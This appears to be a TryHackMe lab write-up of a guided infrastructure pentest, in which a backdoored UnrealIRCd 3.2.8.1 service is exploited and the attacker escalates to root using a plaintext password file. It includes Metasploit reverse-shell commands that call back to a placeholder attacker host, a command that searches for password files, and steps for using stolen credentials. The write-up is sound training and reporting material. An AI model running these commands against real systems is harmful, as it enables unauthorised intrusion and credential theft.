









# Guided Pentest: Infrastructure

## Room Summary

This room walks through a full infrastructure penetration test against a single Linux host that a client recently deployed on its network. Starting with nothing but an IP address, the engagement moves through enumeration, vulnerability analysis, initial access, and privilege escalation to full root compromise.

The key lesson is how short the path to root can be: one outdated service with a known backdoor gave a foothold, and one plaintext password file turned that foothold into full control of the machine.

> This write-up documents methodology and lessons learned. Flags and credentials are intentionally excluded and redacted from screenshots.

## Objectives

- Scan a Linux host and identify running services and versions.
- Research a vulnerable service and find a working public exploit.
- Gain an initial foothold with Metasploit.
- Enumerate local files to escalate privileges to root.
- Document findings with severity ratings and remediation advice.

## Attack Chain

| Step | Phase | Vulnerability | Result |
|---|---|---|---|
| 1 | Enumeration | Outdated service on a non-standard port | UnrealIRCd 3.2.8.1 identified on 6667/tcp |
| 2 | Vulnerability analysis | Backdoored release (CVE-2010-2075) | Public Metasploit module found |
| 3 | Initial access | Unauthenticated remote command execution | Shell as `webmaster` |
| 4 | Privilege escalation | Root password stored in plaintext | SSH login as `root` |

**Tools used:** Nmap, Searchsploit, Metasploit, SSH

## Methodology

### 1. Enumeration

```bash
nmap -sV -sC -oN scan.txt <TARGET_IP>
```

- `-sV`: detect service versions
- `-sC`: run Nmap's default scripts
- `-oN scan.txt`: save the output for reporting



| Port | Service | Notes |
|---|---|---|
| 22 | SSH (OpenSSH 9.6p1, Ubuntu) | Current version, useful later if credentials are found |
| 6667 | IRC (UnrealIRCd 3.2.8.1) | Very old release, main target |

The `irc-info` script leaked the exact version string (`Unreal3.2.8.1`) and the server name `irc.pentest-target.thm`.

> **Note:** the room's example showed the IRC service on a different port and version. Always work from your own scan results, not the walkthrough.

### 2. Vulnerability analysis

Searching for OpenSSH 9.6p1 returned only exploits for much older versions, a dead end. Searching for the IRC service gave a direct match:

```bash
searchsploit unrealircd
```



| Result | Useful? | Reason |
|---|---|---|
| 3.2.8.1 Backdoor Command Execution (Metasploit) | **Yes** | Exact version, Linux, remote, ready-made module |
| 3.2.8.1 Remote Downloader/Execute | Yes | Same backdoor, Perl alternative |
| 3.2.8.1 Local Configuration Stack Overflow | No | Windows, local, denial of service |
| 3.x Remote Denial of Service | No | Only crashes the service, out of scope for a real client |

In 2010 the official UnrealIRCd download was replaced with a version containing a backdoor that executes any command prefixed with `AB;` sent to the server (CVE-2010-2075).

### 3. Initial access

```bash
msfconsole
search unrealircd
use 0
show options
```



The module loaded with a default Meterpreter fetch payload that needed many extra options. I switched to a simple reverse shell payload:



```bash
set payload cmd/unix/reverse
set RHOSTS <TARGET_IP>
set LHOST <ATTACKER_IP>
set LPORT 4444
exploit
```



A command shell session opened as user `webmaster`, and the user flag was read from the home directory.



> **Lesson from a mistake:** my first attempts failed with `Handler failed to bind` and then `Connection refused` because I swapped the target IP into `LHOST`. Rule to remember: `L` options are **my** machine (local), `R` options are the **target** (remote).

### 4. Privilege escalation

Searching the filesystem for files with "password" in the name:

```bash
find / -name password* 2>/dev/null
```

Most results were normal system files, but one stood out as manually created: `/etc/password.txt`. It was readable by the low-privileged user and contained the root password in plaintext.



Because the reverse shell was not an interactive TTY, `su` could not take a password. SSH was already known to be open from the enumeration phase, so I logged in directly:

```bash
ssh root@<TARGET_IP>
```





Full root access to the host was achieved.

## Findings and Remediation

| Vulnerability | Severity | Remediation |
|---|---|---|
| UnrealIRCd 3.2.8.1 backdoor (CVE-2010-2075) | **Critical** | Remove the backdoored build, install the latest release from the official source and verify its checksum. Disable the service and close 6667/tcp if IRC is not needed. |
| Root password stored in plaintext | **Critical** | Delete `/etc/password.txt` and rotate the root password immediately. Never store credentials in files; use a secrets manager and restrict file permissions (least privilege). |
| Direct root login over SSH | **Medium** | Set `PermitRootLogin no` and use key-based authentication with `sudo` for administration. |

### Example finding (report format)

**Title:** Root Password Stored in Plaintext
**Severity:** Critical
**Description:** The root user's password was stored in plaintext in `/etc/password.txt`. The file was readable by low-privileged users, allowing any user with shell access to retrieve the root credentials and fully compromise the system.
**Exploitation Steps:**
1. Obtain a low-privileged shell on the target.
2. Read the file with `cat /etc/password.txt`.
3. Log in as root with `ssh root@<TARGET_IP>`.

**Recommendation:** Remove the file and rotate the root password. Credentials should never be stored in plaintext on the filesystem. Use proper authentication mechanisms (such as `/etc/shadow` with strong hashing) and enforce least privilege on file permissions.

## Skills Gained

- Service and version enumeration with Nmap and its default scripts
- Researching exploits offline with Searchsploit and filtering out irrelevant results
- Configuring Metasploit modules, payloads, and `LHOST`/`RHOSTS` correctly
- Local file enumeration for credentials on Linux
- Pivoting from a limited shell to SSH using information from earlier recon
- Writing findings in a professional report format

## Key Takeaways

1. **Version numbers are findings.** The exact version from `-sC` led straight to the exploit.
2. **Not every search result is useful.** Filter by platform, version, and impact, and avoid denial-of-service exploits on client systems.
3. **Recon pays off twice.** The SSH port found in step 1 was the way to use the root password in step 4.
4. **Know your L and R.** Most Metasploit failures come from misconfigured options, not broken exploits.
5. **The report is the deliverable.** The client only sees what you write down.

## References

- TryHackMe: Guided Pentest: Infrastructure (Jr Penetration Tester path, Penetration Testing Foundations module)
- [NVD: CVE-2010-2075](https://nvd.nist.gov/vuln/detail/CVE-2010-2075)
- [Rapid7: UnrealIRCD 3.2.8.1 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor/)
